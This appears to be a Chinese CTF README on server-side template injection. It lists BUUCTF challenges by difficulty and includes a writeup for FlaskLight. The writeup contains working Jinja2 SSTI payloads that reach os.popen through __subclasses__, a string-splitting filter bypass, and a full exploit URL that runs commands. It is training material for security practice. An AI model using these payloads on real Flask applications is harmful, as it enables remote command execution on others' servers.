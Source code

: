 ## SSTI：

## 目录

### 简单

-   [CSCCTF 2019 Qual]FlaskLight

### 签到

-   [BJDCTF2020]Cookie is so stable twig模板注入
-   [WesternCTF2018]shrine 想方设法获取config
-   [CISCN2019 华东南赛区]Web11 smarty模板注入
-   [BJDCTF2020]The mystery of ip 简单的flask注入
-   [GYCTF2020]FlaskApp debug模式一定条件下可以窃取出来pin码命令执行，但是题目过滤的不够严格导致可以直接打，比签到难一点
-   [pasecactf_2019]flask_ssti 编码绕过
-   [GWCTF 2019]你的名字
-   [CISCN2019 总决赛 Day1 Web3]Flask Message Board

### 中等

-   [护网杯 2018]easy_tornado 因为框架比较冷门，如果不看WP的话需要自己手动翻手册，我觉得算中上偏难的题目。
-   [CISCN2019 华东南赛区]Double Secret 国赛半决赛因为大家互相出题所以都互相恶心，这题整个MD4，线下环境怎么打？

### 困难

-   [QWB2021 Quals]托纳多

### 脑洞

-   [RootersCTF2019]I_<3_Flask 用name注入。？怎么想到的

## Writeup

### [CSCCTF 2019 Qual]FlaskLight

![image-20220220160349289](README/image-20220220160349289.png)



发现提示

![image-20220220160501360](README/image-20220220160501360.png)

测试成功

![image-20220220160529875](README/image-20220220160529875.png)

列出所有子类

![image-20220220160904114](README/image-20220220160904114.png)

放入find.py跑一下敏感函数

![image-20220220161148184](README/image-20220220161148184.png)

构造payload

```python
{{[].__class__.__bases__[0].__subclasses__()[127].__init__.__globals__['os'].popen(cat /xxx/flag)}}
```

出现未知错误

![image-20220220162228623](README/image-20220220162228623.png)

这里应该是关键字过滤

那就绕它！

```python
{{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('whoami').read()}}
```

![image-20220220170734065](README/image-20220220170734065.png)

同理可构造payload

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__']['__builtins__']['__import__']('os').popen('whoami').read()}}
```

读取flag

```python
http://91ff8d9a-4ad0-491a-8d5d-c55157088e4f.node4.buuoj.cn:81/?search={{[].__class__.__bases__[0].__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek ').read()}}
```

![image-20220220171038110](README/image-20220220171038110.png)



